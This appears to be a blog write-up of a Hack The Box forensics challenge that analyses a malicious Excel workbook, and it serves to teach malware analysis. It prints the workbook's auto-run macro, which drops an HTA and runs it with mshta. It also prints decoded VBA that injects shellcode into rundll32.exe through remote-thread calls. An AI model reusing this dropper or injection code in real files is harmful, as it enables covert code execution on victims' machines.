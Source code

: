 +++
author = "Brian Stadnicki"
title = "HTB forensics challenge: oBfsC4t10n #93"
date = "2021-11-25"
categories = [ "htb" ]
tags = [ "reverse engineering", "forensics", "excel", "vba", "injection" ]
+++

# Introduction

I started analysing this from finding it on the malware sandbox any.run, only at the end do I notice that it's a Hack The Box challenge.

# Sample

This sample is from [any.run](https://app.any.run/tasks/0c81fc47-2bb2-4724-a1ee-fc5ebde8e4f5/).

![Preview of excel sheet](/posts/htb-challenge-93/preview.png)

Property              | Value
----------------------|---------------------------------------------------
File Type             | Microsoft Excel 97-2003 Worksheet
File Size             | 35.6 KB
MD5                   | b54c993e941836bf2c9c69948b30bcf0
SHA1                  | a3e6234b5310a3918b9e01c08badf3eb5f44a4b8 
SHA256                | 3861795ece849d6b417a3c9870a7e0a0eccd27f74e706b9242d94d5e8885b705

# VBA Extraction

Using olevba, we can view the vba code inside.

```vba
Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"

    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1

    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```

You can see that when the excel file is opened, the output file Environ("temp") & "\LwTHLrGh.hta" is opened and written with the output from hdYJNJmt(string), then executed using `mshta`. A `.hta` file is a Microsoft HTML Application file, which can contain VB or JS.

## Dumping

Simply allow the excel file to run with macros enabled, and find the extracted `LwTHLrGh.hta` file, in my case at `C:\Users\IEUser\AppData\Local\Temp\LwTHLrGh.hta`.

# LwTHLrGh.hta

It appears to open a shell, do something with a registry key about `VBOM`, and then add a code module to a workbook, using `xlmodule.CodeModule.AddFromString ...`.

```vba
' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ""Private ""&""Type PRO""&""CESS_INF""&""ORMATION""&Chr(10)&"" ....
```

The string appears to simply be a lot of strings concatenated together with some char calls. Replace all the `""` with `"` and then simply use something like an [online vb compiler](https://www.onlinegdb.com/online_vb_compiler) to evaluate the string.

# Dynamic VBA

```vba
Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" ...
Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" ...
Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" ...
Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" ...
...
    myArray = Array(...)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
```

In the dynamically loaded VBA, we see that `rundll32.exe` is ran and `myArray` written to the process. Unusually, the process executable is ran without any arguments.

## Extraction

To extract the code which is dynamically injected into the `rundll32.exe` process, I wrote some very basic python to write it to a file. VBA allows bytes to be signed ints, but python requires them to be unsigned.

```python
with open ("out.bin", "wb") as out:
    for b in myArray:
        out.write((b & 0xff).to_bytes(1, 'little'))
```

# rundll32.exe

Statically analyzing this doesn't seem to give any useful information, and given its size of 1 KB and just calls to `ntdll.dll`, it's likely that this is just another loader that tries to hide in `rundll32.exe`.

Monitoring it using API Monitor, it appears that it loads some windows DLLs, calls some socket methods, and then has an error and calls windows error handling methods. I've spotted two interesting calls to `RtlUnicodeToUTF8N`, inbetween calls getting winsock registry keys and the error handling.

Module         | API
---------------|--------------------------------------------------------------------------------------
KERNELBASE.dll | RtlUnicodeToUTF8N ( NULL, 0, 0x04e0ebf0, "evil-domain.no/HTB{redacted-for-fun}", 76)
KERNELBASE.dll | RtlUnicodeToUTF8N ( "", 39, 0x04e0ebf0, "evil-domain.no/HTB{redacted-for-fun}", 76)

# Hack The Box

Looks like I accidentally found a [Hack The Box challege](https://app.hackthebox.com/challenges/93)! [Challenge completed](https://www.hackthebox.com/achievement/challenge/833022/93).
